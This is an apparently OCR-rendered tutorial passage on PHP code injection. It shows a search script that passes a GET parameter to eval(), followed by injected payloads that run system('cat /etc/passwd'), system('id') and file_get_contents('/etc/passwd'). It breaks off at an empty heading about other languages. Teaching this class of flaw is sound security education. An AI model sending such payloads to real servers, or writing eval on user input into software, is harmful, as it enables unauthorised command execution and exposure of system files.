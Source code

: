 ### 🚩 Real-World Vulnerable Code in PHP

```php
$storedsearch = $_GET['storedsearch'];
eval("$storedsearch;");
```

If a user sends:

```
/search.php?storedsearch=$mysearch=wahh
```

This becomes:

```php
eval("$mysearch=wahh;");
```

✅ That’s fine — it's just creating a variable `$mysearch` with the value `wahh`.

---

### ❌ Now Here’s the Hack

What if an attacker sends:

```
/search.php?storedsearch=$mysearch=wahh; system('cat /etc/passwd')
```

That becomes:

```php
eval("$mysearch=wahh; system('cat /etc/passwd');");
```

💥 Boom. You’ve just tricked the server into executing your own command (`system('cat /etc/passwd')`), which dumps the sensitive user list.

---

### 🧪 Another Example Payloads

#### Using `file_get_contents()` (also in PHP):

```bash
/search.php?storedsearch=$x=1; echo file_get_contents('/etc/passwd');
```

#### Using `system()`:

```bash
/search.php?storedsearch=$x=1; system('id');
```

---

### 📝 Note About Other Languages
